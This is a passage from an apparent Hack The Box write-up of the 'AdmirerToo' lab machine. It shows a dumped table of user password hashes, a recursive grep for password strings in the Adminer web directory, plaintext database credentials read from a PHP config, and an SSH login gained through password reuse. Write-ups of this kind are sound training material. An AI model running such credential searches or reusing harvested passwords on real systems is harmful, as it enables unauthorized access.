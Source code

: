 ```text
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
```

I couldn't crack those md5 hashes, so for now this is a dead. Time for more enumeration around the OS, where I eventually found more credentials:

```text
opentsdb@admirertoo:/var/www/adminer$ grep -rl "pass*" . 2>/dev/null
./plugins/data/servers.php
./plugins/oneclick-login.php
./plugins/plugin.php
./adminer-included-0ae90598f37b20e3e7eb122c427729ed.php

opentsdb@admirertoo:/var/www/adminer$ cat plugins/data/servers.php
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```

Looking at users who can log in on the box we see just one:

```text
opentsdb@admirertoo:/var/www/adminer$ ls -l /home
drwxr-xr-x 3 jennifer users 4096 Feb 22 20:58 jennifer
```

## SSH As Jennifer

Turns out that password above has been reused by jennifer:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htbs password:
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
No mail.
Last login: Wed Mar  2 22:02:08 2022 from 10.10.14.160
jennifer@admirertoo:~$
```
